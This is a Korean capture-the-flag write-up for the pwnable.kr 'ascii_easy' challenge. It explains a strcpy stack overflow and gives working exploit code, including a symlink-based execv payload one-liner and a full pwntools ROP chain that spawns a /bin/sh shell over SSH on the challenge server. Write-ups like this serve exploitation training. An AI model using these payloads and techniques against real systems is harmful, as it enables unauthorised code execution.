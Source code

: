 ```yaml
---
title: "[pwnable] ascii_easy"
date: 2025-02-24 07:00:00 +0900
categories: [pwnable]
tags: [pwnable]
description: pwnable, system hack
---
```


### 스택 프레임
![alt text](assets/img/ascii_easy/image-7.png)
func1과 func2를 차례대로 호출했을 때.   
buf(로컬변수)와 return address 사이에 SFP(stack frame pointer)가 있는 것을 볼 수 있습니다.   

### 코드 분석

```c
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <fcntl.h>

#define BASE ((void*)0x5555e000)

int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}

void vuln(char* p){
    char buf[20];
    strcpy(buf, p);
}

void main(int argc, char* argv[]){

    if(argc!=2){
        printf("usage: ascii_easy [ascii input]\n");
        return;
    }

    size_t len_file;
    struct stat st;
    int fd = open("libc-2.15.so", O_RDONLY);
    if( fstat(fd,&st) < 0){
        printf("open error. tell admin!\n");
        return;
    }

    len_file = st.st_size;
    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        printf("mmap error!. tell admin\n");
        return;
    }

    int i;
    for(i=0; i<strlen(argv[1]); i++){
        if( !is_ascii(argv[1][i]) ){
            printf("you have non-ascii byte!\n");
            return;
        }
    }

    printf("triggering bug...\n");
    vuln(argv[1]);

}
```

mmap 함수를 통해 libc 라이브러리 파일을 통으로 메모리에 올리는 것을 확인할 수 있습니다.   
또, vuln 함수에서 커맨드라인 인자로 받은 문자열을 그대로 strcpy를 하는 것을 보아,
스택 버퍼 오버플로우 공격을 사용해야 하는 것을 알 수 있었습니다.



### 바이너리 분석
![alt text](assets/img/ascii_easy/image-9.png)
main과 vuln함수에 breakpoint를 걸어두고, `r aaaa`로 실행을 시켜보았습니다.   
vuln 함수 안에서, strcpy 이후 스택을 조사해 보니, `0x61616161(aaaa)`의 위치부터 return address인 `0x0804865f(main+300)` 까지 32바이트의 공간이 있는 것을 확인했습니다.   
따라서, 더미데이터 32바이트 뒤에 system 함수 혹은 exec함수의 주소, 인자들을 덧붙여 덮어씌우면 될 것으로 예상했습니다.   

이 문제에서는 ascii 바이트(c>=0x20 && c<=0x7f)만 입력이 가능하기 때문에 mmap으로 메모리에 올린 libc 내에서 주소를 찾아 payload를 만들어야 합니다.   


#### 함수 위치를 찾는 커맨드라인 명령어
`nm -D libc-2.15.so | grep exec | awk '{printf "0х%x\n", strtonum("0x"$1) + 0x5555e000}'`

`nm -D libc-2.15.so | grep system | awk '{printf "0х%x\n", strtonum("0x"$1) + 0x5555e000}'`

nm 명령어와 grep, awk를 이용하여 exec과 system 함수가 mmap 이후에 어디에 위치할 지 출력해 보았습니다.   

![alt text](assets/img/ascii_easy/image-10.png)

![alt text](assets/img/ascii_easy/image-11.png)

system은 is_ascii 함수를 통과하는 주소가 없고,   
exec 계열 함수 중 execv, execvp함수와 fexecve 함수가 is_ascii 함수를 통과하는 것을 알 수 있었습니다.

* `0x55564a36` null
* `0x55616740` execv -> 5561676a
* `0x55564b4c` "A"

![alt text](assets/img/ascii_easy/image-12.png)

`/bin/sh` 문자열은 libc 내부에 존재하지만, is_ascii 함수를 통과하지 못하는 주소였습니다.


### symlink 풀이
tmp 디렉토리 아래에 symlink 파일을 하나 만들어 줍니다.
```
ln -s /bin/sh A
```

```
~/ascii_easy $(python -c "print 'A'*32 + '\x6a\x67\x61\x55' + '\x4c\x4b\x56\x55' + '\x36\x4a\x56\x55'*2");
```
 
<!-- ![alt text](image.png) -->
<br/>
<br/>


### ROP gadget 풀이
#### ROPgadget 찾기   
`ROPgadget --binary libc-2.15.so > gadget.txt`   

#### offset 더하기
`awk '{ addr = strtonum($1); newaddr = addr + 0x5555e000; $1 = sprintf("0x%08x", newaddr); print; }' gadget.txt > newgadget.txt`

#### rop chain exploit
``` python
from pwn import *

pop_edx    = 0x555f3555 
memory_addr = 0x55562023 
mov_edx_edi = 0x55687b3c 
mov_edx_eax = 0x5560645c 
pop_ecx    = 0x556d2a51 
pop_ebx    = 0x5557734e 
inc_eax    = 0x556c6864 
int_80     = 0x55667176 

payload  = b"a"*32

# memory addr에 /bin 로드
payload += p32(pop_edx) # pop edx; xor eax, eax; pop edi; ret
payload += p32(memory_addr) # "/bin/sh" 를 저장할 메모리 주소
payload += b'/bin' # 4바이트 문자열
payload += p32(mov_edx_edi) # mov [edx], edi; pop esi; pop edi; ret
payload += b"a"*8 # dummy 바이트, 위 mov edx edi 이후 pop을 두번 함

# memory addr +4에 //sh 로드
payload += p32(pop_edx) # pop edx; xor eax, eax; pop edi; ret
payload += p32(memory_addr + 4) # "/bin/sh" 를 저장할 메모리 주소
payload += b'//sh' # 4바이트 문자열
payload += p32(mov_edx_edi) # mov [edx], edi; pop esi; pop edi; ret
payload += b"a"*8 # dummy 바이트, 위 mov edx edi 이후 pop을 두번 함

# memory addr +8에 null 로드 
payload += p32(pop_edx) # pop edx; xor eax, eax; pop edi; ret
payload += p32(memory_addr + 8) # "/bin/sh" 를 저장할 메모리 주소
payload += b"a"*4 # dummy 바이트, 위 pop edx 이후 pop을 한번 함
payload += p32(mov_edx_eax) # mov [edx], eax; ret, eax에는 xor연산으로 0이 저장되어있음

# edx에 null 로드
payload += p32(pop_edx) # pop edx; xor eax, eax; pop edi; ret
payload += p32(memory_addr + 8) # null이 저장된 주소
payload += b"a"*4

# ecx에 null 로드
payload += p32(pop_ecx) # pop ecx; add al, 0xa; ret
payload += p32(memory_addr + 8) # null이 저장된 주소

# ebx에 "/bin/sh" 로드
payload += p32(pop_ebx) # pop ebx; ret
payload += p32(memory_addr) # "/bin/sh"가 저장된 주소

# syscall 호출, 11번은 execve
payload += p32(inc_eax) # 위에서 xor eax, eax; 와 add al, 0xa를 통해 eax에는 10이 있음. 1을 더해 11로 만듦
payload += p32(int_80)

sh = ssh('ascii_easy', 'pwnable.kr', 2222, 'guest')
p = sh.process(['/home/ascii_easy/ascii_easy', payload], tty=True)

p.interactive()


```